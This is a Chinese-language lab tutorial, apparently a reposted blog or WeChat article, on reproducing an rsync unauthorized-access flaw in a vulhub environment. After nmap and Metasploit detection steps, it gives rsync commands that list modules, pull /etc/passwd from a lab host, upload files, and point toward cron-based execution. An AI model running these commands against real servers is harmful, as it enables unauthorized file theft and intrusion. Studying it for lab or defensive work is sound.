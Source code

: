 这里使用 vulhub 中的项目来搭建复现环境

Vulhub 漏洞环境搭建教程参考：

https://www.fujieace.com/penetration-test/vulhub.html

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuL5b8nVXWPzSSCs19oGrYaGFWiaWialB2yQaxDJbtGm2Ta6GViayOOKBhg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuwWb901xKqdY3HoqIxcRjgnt6qpjPRXLd36ticOUJica61MPrnzGDSCZw/640?wx_fmt=jpeg)

#### 漏洞检测

nmap 检测：

nmap -p 873 —script rsync-list-modules

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktupic5KkAxHjia4ZviboZHGcY3O53ZsGictFEffM4qE8Y4lx1z0RHAAc9stQ/640?wx_fmt=jpeg)

Metasploit 的 auxiliary/scanner/rsync/modules\_list 模块

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktu22rQTiaantyesibpDUSfSWaHTnDJWaDp5FbNJeDpCw40JJw9QBUcQhlg/640?wx_fmt=jpeg)

#### 漏洞利用

列出目标服务器的同步目录

```
rsync 192.168.168.131::
rsync rsync://192.168.168.131:873
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuibjQYmQQd1crua50hT5PCmDwk9HNE8F1Qia3GcsrKBJiaCYYld3PQdjYg/640?wx_fmt=jpeg)

查看模块文件

获取到目录之后，只需在路径后添加目录名即可查看目录中的文件

```
rsync rsync://192.168.168.131/src/etc/passwd ./pass.txt
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuXGaF9TSzq5Vmg9uGJkrtNib0t7I07vYcNInB4vRP076j1kpFYp4JX6A/640?wx_fmt=jpeg)

可以看到成功列出 src 目录

任意文件下载

```
rsync 1.txt rsync://192.168.168.131/src/home/
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuoFQqkJHdUDvYraBnicrsTn4gNmaYkYs1Eiaqz2c0dhYvXDbSAAxLSLXA/640?wx_fmt=jpeg)

任意文件上传

```
//17 root cd / && run-parts —report /etc/cron.hourly
//表示17分钟会启动/etc/cron.hourly目录下文件的任务
```
